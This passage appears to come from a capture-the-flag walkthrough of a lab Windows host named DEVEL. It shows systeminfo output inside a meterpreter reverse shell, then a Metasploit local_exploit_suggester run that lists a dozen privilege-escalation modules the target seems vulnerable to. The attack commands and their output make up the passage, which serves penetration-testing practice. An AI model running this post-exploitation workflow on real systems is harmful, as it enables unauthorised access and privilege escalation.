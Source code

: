 ```
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5

c:\windows\system32\inetsrv>exit
exit
meterpreter > 
```

# post/multi/recon/local_exploit_suggester

```
background
> use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.30:1234 -> 10.10.10.5:49164 (10.10.10.5)

msf post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 40 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```